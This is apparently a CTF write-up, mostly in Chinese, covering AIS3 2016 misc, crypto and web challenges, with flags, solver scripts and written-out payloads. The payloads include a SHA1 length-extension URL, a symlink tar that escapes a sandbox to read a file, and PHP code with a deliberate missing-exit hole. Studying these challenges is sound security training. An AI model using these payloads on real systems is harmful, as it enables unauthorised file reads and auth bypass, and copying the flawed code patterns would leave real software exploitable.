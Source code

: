 ## misc-1

Open the [misc1.txt](misc1/misc1.txt)

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip

此題會給一個沒副檔名又壞掉的 [file](misc2/UNPACK_ME)

透過 [Hex Editor](http://www.azofreeware.com/2014/04/hxd-1770-hex.html) 可以發現它的 header 是一個 7z 壓縮檔

![misc2/img_misc2_1.png](misc2/img_misc2_1.png)

從 [7Zip](http://www.7-zip.org/recover.html) 官方的說明，可以知道真正的 7z header 是 7z 不是 7Z

![misc2/img_misc2_2.png](misc2/img_misc2_2.png)

修復好並解壓縮後，會發現需要密碼，

接著可以猜密碼可能是 `UDJRRDVRJyfbWBxEMLEX`

![misc2/img_misc2_3.png](misc2/img_misc2_3.png)

成功解壓後，又獲得壞掉的壓縮檔，依照以上的修復方式，

再次解壓縮後可以得到放密碼的`secret.txt`，另一個是壞掉的壓縮檔

![misc2/img_misc2_4.png](misc2/img_misc2_4.png)

重複做了好幾次發現，這個壓縮檔可能包了好幾層...

執行以下程式，最後得到 `flag.txt`

`WeiYu$ python misc2_sol.py`

Here is the misc2_sol.py code

``` python
#!/usr/bin/env python3

import os
import subprocess

index = 0

while True:
    archive = str(index) + '.7z'
    key_filename = str(index) + '.key'
    with open(archive, 'rb') as old_archive:
        content = old_archive.read()
        content = b'7z' + content[2:]
        archive = str(index) + '_z.7z'
        with open(archive, 'wb') as f:
            f.write(content)

        key = None
        with open(key_filename, 'r') as f:
            key = f.read().strip()
        subprocess.call('7z e ' + archive + ' -otemp' + ' -p' + key + ' -y',shell=True)

        index += 1
        os.rename("./temp/secret.txt", "./" + str(index) + ".key")

        file_list = os.listdir("./temp")
        assert len(file_list) == 1

        os.rename("./temp/" + file_list[0], "./" + str(index) + ".7z")
        pass
```

The key is `ais3{7zzZzzzZzzZzZzzZiP}`


## misc-3

Hint: symbolic link (透過 tar 可保留 symbolic link)

`WeiYu$ ln -s ../flag.txt guess.txt`

`WeiYu$ tar cvf guess.tar guess.txt`

`WeiYu$ python misc3_sol.py`

Here is the misc3_sol.py code

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```

The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [xortool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面
![crypto1/xortool_sol.png](crypto1/xortool_sol.png)

得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰

後來發現有個英文單字拼錯，修改後，得到了通關的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2

Source Code

``` php
<?php
    $path = "..";
    $file = "flag.txt";
    $authenticated = false;
    $secret = trim(file_get_contents("$path/$file"));
    assert(strlen($secret) <= 60);

    if(isset($_GET['expire']) && isset($_GET['auth'])) {
        $expire = $_GET['expire'];
        $auth = $_GET['auth'];
        $qstr = substr(strstr($_SERVER['REQUEST_URI'], '?'), 1);
        $qstr = preg_replace('/&auth=.*/', '', $qstr);
        $qstr = urldecode($qstr);
        if(sha1($secret . "$qstr") === $auth) {
            if($expire > time(0)) {
                $authenticated = true;
            }
        }
    } else {
        $expire = time(0) - 1000000;
        $auth = sha1($secret . "expire=$expire");
        $uri = preg_replace('/\?.*/', '', $_SERVER['REQUEST_URI']);
        header("HTTP/1.1 302 Found");
        header("Location: $uri?expire=$expire&auth=$auth");
        die;
    }
?>
```

這篇參考了 PCC 的 [writeup](https://github.com/pcchou/ctf-writeups/blob/master/2016/tw-edu-ctf/LEA/README.md")

得知此題是 `length extension attack` 處理

Payload 1
```
https://quiz.ais3.org:8014/?expire=1467343030%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01h
&expire=2467343030&auth=b3afa04f67bff2c22754d4313a91b82cf2ad0eb0
```
Payload 2
```
https://quiz.ais3.org:8014/?expire=1467346517&auth=5c85f041d3de578d2acca06a90cf83633129e24e
&expire=12467346517
```

The key is `ais3{HasH.eXtension.@tt@ck!}`

## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到這段 php 沒有 `exit` 跟 `die`，因此 body content 還是會輸出

``` php
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3

開啟 [web3](https://quiz.ais3.org:8013/)

可以自己架起來玩 [PHP](web3/) 此漏洞在 PHP7 已被修復
